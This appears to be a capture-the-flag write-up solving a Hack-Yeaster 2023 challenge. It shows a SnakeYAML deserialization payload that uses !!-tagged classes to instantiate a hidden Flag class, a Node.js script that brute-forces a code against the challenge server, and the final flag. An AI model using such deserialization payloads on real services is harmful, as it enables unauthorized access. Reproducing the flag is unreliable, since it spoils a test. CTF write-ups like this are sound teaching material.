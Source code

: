 If we have a look at the site, there are multiple images which have base64 query parameter indicating which image they are serving

bmFtZTogU25ha2VzIGluIFNwYWNlCmltYWdlOiBzbmFrZXNfaW5fc3BhY2UKc291cmNlOiBEQUxMLUUKcmVzb2x1dGlvbjogMjU2eDI1Ng==

name: Snakes in Space
image: snakes_in_space
source: DALL-E
resolution: 256x256

By looking at the source code, it is easy to see that we need to try to render the 'Flag' instead of the 'Image' class.
But there are no direct references in the code. Luckily it seems like the class is included in the runtime.
We see that the input is parsed by the snakeyaml library.
After a quick google, we bounce on
https://snyk.io/blog/java-yaml-parser-with-snakeyaml/

So we need to try to generate a payload which would contain this. (com.hackyeaster.digitalsnakeart has been replaced with pkg for brevity)

```
name: Snake as a flag
image: !!pkg.Flag [!!pkg.Code [1]]
source: DALL-ME
resolution: 256x256
```

This renders the following image which probably is the same as the `snake_no_access` image referenced in the flag code.

![[Pasted image 20230413213932.png]]

So the easiest way to approach this is to find the valid code which is a number between 1 and 500 (as can be found in the code). So I would write a script which will stop once it has gotten input back which does not contain part of the base64 of the above image.

```
import fetch from 'node-fetch';

const url = 'http://ch.hackyeaster.com:2307/art?art=';

const originalPayload = `
name: Snake as a Super Hero
image: snake_as_a_super_hero
source: DALL-E
resolution: 256x256`;

const packageName = 'com.hackyeaster.digitalsnakeart'

async function doOneFetch(payload) {
    const payloadBase64 = Buffer.from(payload).toString('base64')
    const fullUrl = `${url}${payloadBase64}`;
    const data = await fetch(fullUrl)
    const text = await data.text();
    return text;
}

async function run() {
    let found = false;
    let iterator = 1;
    const totalIterations = 500;

    while(!found && iterator < totalIterations) {
        console.log('Iteration', iterator);
        const payload = `
name: Snake as a flag
image: !!${packageName}.Flag [!!${packageName}.Code [${iterator}]]
source: DALL-ME
resolution: 256x256
`;
        const result = await doOneFetch(payload);

        if (!result.includes(`1mcOf4B8pgFYl0GYSgHe2ggmgACAQcCga24d/jf/P33BbJDcFKoBnWf3PSW/Huw`)) {
            found = true;
            console.log('FOUND--', iterator, result);
        }

        iterator += 1;
    }
}

run()
```

The following script will find the correct code and console log the base64 representation of the image.
After scanning the QR, you should find the flag:

he2023{0n3_d03s_n0t_s1mply_s0lv3_th1s_chllng!}
